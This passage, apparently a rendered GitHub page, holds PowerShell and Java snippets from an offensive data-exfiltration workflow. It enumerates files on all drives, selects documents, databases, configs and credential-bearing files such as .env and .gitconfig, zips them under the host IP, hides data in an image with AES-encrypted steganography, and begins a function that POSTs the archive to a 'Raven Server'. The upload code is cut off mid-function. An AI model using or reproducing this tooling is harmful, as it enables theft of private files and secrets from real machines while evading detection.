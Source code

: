 ```
    }
    catch {
        Write-Warning "Error scanning drive: $($Drive.Root) - $_"
    }
}

# Save only file paths to output file
$Log | Out-File -FilePath $OutputFile -Encoding UTF8

# Display summary in console
Write-Host "Enumeration complete. Results saved to: $OutputFile"
$LogCount = $Log.Count
Write-Host "Found $LogCount non-native files."

# Optional: Display a sample of results in console (first 5 paths)
if ($LogCount -gt 0) {
    Write-Host "Sample of non-native file paths (first 5):"
    $Log | Select-Object -First 5 | ForEach-Object { Write-Host $_ }
}
```
Locate Important Files and Stage Them
```
Get-Content C:\users\Public\Documents\files.txt | Where-Object { $_ -match '\.(pdf|xlsx?|docx?|txt|rtf|odt|ods|odp|csv|md|pptx?|pub|vsdx?|accdb|one|msg|eml|dotx?|xltx?|potx?|ppsx?|sldx?|thmx|xml|wps|wpd|tex|log|pages|numbers|key|epub|azw3|mobi|djvu|fb2|lrf|chm|hwp|sxw|sxi|stw|stc|sti|std|sxg|sxd|abw|kwd|kwt|123|wk1|wk3|wk4|wks|qpw|xlw|xlr|dif|slk|sylk|wb2|wb3|qpw|nb|ole|ole2|wk4|wks|frm|frx|mda|mdt|mdw|mde|adt|adp|mad|maf|mag|mam|maq|mar|mas|mat|mda|mdb|mde|mdt|mdw|prg|scx|sct|vcx|db2|db3|dbc|dbf|dbt|dbx|dcx|fpt|frx|idx|mbx|mdx|mem|mkd|ntx|prg|ptx|qbe|qbs|qry|sdf|sql|tab|tmd|val|wdb|xdb|adn|mad|maf|mam|maq|mar|mas|mat|ini|conf|cfg|config|yaml|yml|json|toml|properties|env|props|settings|rc|bashrc|zshrc|profile|gitconfig|gitignore|htaccess|nginx\.conf|apache2?\.conf|httpd\.conf|hosts|xml|plist|reg|bat|cmd|ps1|sh|bash|zsh|ksh|csh|fish|ion)$' } | ForEach-Object { if (Test-Path $_) { $_ } } | Compress-Archive -CompressionLevel Optimal -DestinationPath "C:\Users\Public\Documents\Archive_$(Get-NetIPAddress | Where-Object InterfaceAlias -eq Ethernet0 | Where-Object AddressFamily -eq IPV4 | Select-Object -ExpandProperty IPAddress).zip" -Force
```

Steganography to obfuscate the target files
```
java -Xmx6g -jar "C:\Users\Public\HelpDesk" embed -a RandomLSB -mf "stegtest.txt" -cf "Wallpaper Engine/thomas-bonometti-mx6BzzKvWIw-unsplash.jpg" -sf hidden.png -e -p MWMzRjRuZ0IzNzczclRoNG5TNDU1eVA0bmQ0 -A AES128
```


Send the files to the Raven Server
```
function Invoke-SendRaven {
    param (
        [string]$Uri,
        [string]$FilePath
    )

    # Target File
    $File = Get-Item $FilePath
    $Content = [System.IO.File]::ReadAllBytes($File.FullName)
    $Boundary = [System.Guid]::NewGuid().ToString()

    # Request Headers
    $Headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
    $Headers.Add("Content-Type", "multipart/form-data; boundary=$Boundary")

    # Create the request
    $Request = [System.Net.WebRequest]::Create($Uri)
    $Request.Method = "POST"
    $Request.ContentType = "multipart/form-data; boundary=$Boundary"
```